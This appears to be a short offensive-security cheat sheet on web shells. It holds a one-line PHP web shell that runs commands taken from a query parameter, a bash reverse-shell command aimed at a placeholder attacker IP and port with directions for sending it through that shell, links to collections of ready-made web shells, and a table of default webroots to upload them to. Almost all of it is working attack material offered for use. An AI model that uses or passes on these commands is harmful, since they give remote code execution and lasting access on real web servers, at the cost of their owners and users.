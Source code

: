 #shell/web
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Open reverse shell:
```shell
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'
```
URL encode it and send as cmd query or post parameter

**Collection of webshells laudanum**:
https://github.com/jbarcia/Web-Shells/tree/master/laudanum
`cp /usr/share/laudanum/... shellfile`

`/opt/useful/seclists/Web-Shells/

https://github.com/Arrexel/phpbash

Where to upload web shell:

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\|   |
| `XAMPP`    | C:\xampp\htdocs\|      |
